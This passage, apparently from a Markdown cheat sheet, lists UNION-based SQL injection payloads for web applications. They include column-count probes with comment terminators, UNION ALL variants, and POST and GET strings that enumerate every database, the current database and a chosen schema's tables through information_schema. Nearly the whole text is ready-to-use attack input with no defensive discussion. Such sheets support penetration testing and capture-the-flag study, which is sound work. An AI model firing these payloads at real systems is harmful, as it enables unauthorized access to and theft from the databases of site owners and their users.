 	id=1' UNION SELECT 1 #
	id=1' UNION SELECT 1,2 #
	id=1' UNION SELECT 1,2,3 #

	id=1' UNION SELECT 1 -- -
	id=1' UNION SELECT 1,2 -- -
	id=1' UNION SELECT 1,2,3 -- -
	```
- UNION ALL
	```
	id=1' UNION ALL SELECT 1 #
	id=1' UNION ALL SELECT 1,2 #
	id=1' UNION ALL SELECT 1,2,3 #
	
	id=1' UNION ALL SELECT 1 -- -
	id=1' UNION ALL SELECT 1,2 -- -
	id=1' UNION ALL SELECT 1,2,3 -- -

	id=-1' UNION ALL SELECT 1 -- -
	id=-1' UNION ALL SELECT 1,2 -- -
	id=-1' UNION ALL SELECT 1,2,3 -- -
	```


## Enumarete ALL databases
- POST
	```
	' UNION SELECT 1,2,3,4,5,group_concat(SCHEMA_NAME) FROM information_schema.schemata #
	```
- GET
	```
	-1+UNION+SELECT+group_concat(SCHEMA_NAME),2,3,4+FROM+information_schema.schemata#
	```

## Enumerate CURRENT database
- POST
	```
	' UNION SELECT 1,2,3,4,5,database()#
	```
- GET
	```
	-1+UNION+SELECT+database(),2,3,4#
	```
	
## Enumerate TABLES in chosen database
- POST
	```
	' UNION ALL SELECT 1,2,3,4,5,group_concat(table_name) from information_schema.tables WHERE table_schema='Staff'#
	```
- GET
	```
	-1+UNION+SELECT+1,group_concat(table_name),3,4+FROM+information_schema.tables+WHERE+table_schema='marketplace'#
	```
	
